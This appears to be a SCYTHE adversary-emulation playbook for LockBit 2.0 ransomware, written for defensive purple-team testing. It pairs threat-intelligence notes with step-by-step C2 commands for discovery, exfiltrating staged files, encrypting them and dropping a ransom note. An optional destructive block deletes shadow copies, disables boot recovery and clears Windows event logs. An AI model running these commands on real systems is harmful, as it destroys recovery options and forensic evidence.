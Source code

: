 # LockBit

## Cyber Threat Intelligence
LockBit 2.0 operates as an affiliate-based Ransomware-as-a-Service (RaaS) and employs a wide variety of tactics, techniques, and procedures (TTPs), creating significant challenges for defense and mitigation. LockBit 2.0 ransomware compromises victim networks through a variety of techniques, including, but not limited to, purchased access, unpatched vulnerabilities, insider access, and zero day exploits. [^1]

Upon execution, Lockbit 2.0 determines the system and user language settings and only targets those not matching a set list of languages that are Eastern European. If an Eastern European language is detected, the program exits without infection. As infection begins, Lockbit 2.0 deletes log files and shadow copies residing on disk. Lockbit 2.0 enumerates system information to include hostname, host configuration, domain information, local drive configuration, remote shares, and mounted external storage devices.Lockbit 2.0 attempts to encrypt any data saved to any local or remote device but skips files associated with core system functions.

## Automated Emulation
*** Note this threat is destructive if running with high privilege ***
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under LockBit/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/LockBit
4. Create a new campaign with HTTPS.
5. Import from Existing Threat: LockBit
6. Launch the Campaign

## Manual Emulation

Launch a campaign with the C2 parameters you wish to use. 

Once you have a shell, execute the following procedures:
```
loader --load run
```
Determine the language of the target operating system:
```
run reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\Language
```
LockBit does not execute on systems set with Eastern European languages. The return of the reg query should not match
```
2092 1068 1067 1059 1079 1087 1088 2073 1049 1064 1090 2115 1091
```
Perform discovery procedures:
```
run whoami
loader --load printscr
printscr --window Desktop
loader --load sysinfo
sysinfo
loader --load processes
processes
run cmd /c dir %USERPROFILE%\Documents
run net use
```
Prepare the system for impact TTPs:
```
run cmd /c mkdir "%USERPROFILE%\Desktop\LockBit"
loader --load file
file --create --path "%USERPROFILE%\Desktop\LockBit\target_files.xls" --size 5MB --count 10 --random
```
Exfiltrate:
```
loader --load upsh
upsh --cmd "Compress-Archive -Path $env:userprofile\Desktop\LockBit -CompressionLevel Optimal -Destination $env:userprofile\Desktop\LockBit\exfil.zip"
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\LockBit\exfil.zip"
```
Encrypt the files:
```
file --create --path "%USERPROFILE%\Desktop\LockBit_Ransomware.hta" --size 1MB --random
loader --load crypt
crypt --target "%USERPROFILE%\Desktop\LockBit\" --encrypt --password "LockBit" --erase --extension lockbit
```
Download the ransom note and open it:
```
loader --load downloader
downloader --src "VFS:/shared/threats/LockBit/Restore-My-Files.txt" --dest "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
run powershell notepad "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
```
Clean up:
```
run cmd /c rmdir /Q /S ""%USERPROFILE%\Desktop\LockBit""
run cmd.exe /c del "%USERPROFILE%\Desktop\LockBit_Ransomware.hta"
```
If running with high privilege and want to run the destrutive TTPs:
```
controller --integrity
run vssadmin Delete Shadows /All /Quiet
run bcdedit /set {default} recoveryenabled No
run bcdedit /set {default} bootstatuspolicy ignoreallfailures
run wmic SHADOWCOPY /nointeractive
run wevtutil cl security
run wevtutil cl system
run wevtutil cl application
run vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no
```
Shutdown the payload
```
controller --shutdown
```

## References
- [FBI Flash](https://www.ic3.gov/Media/News/2022/220204.pdf)
[^1]: [FBI Flash](https://www.ic3.gov/Media/News/2022/220204.pdf)
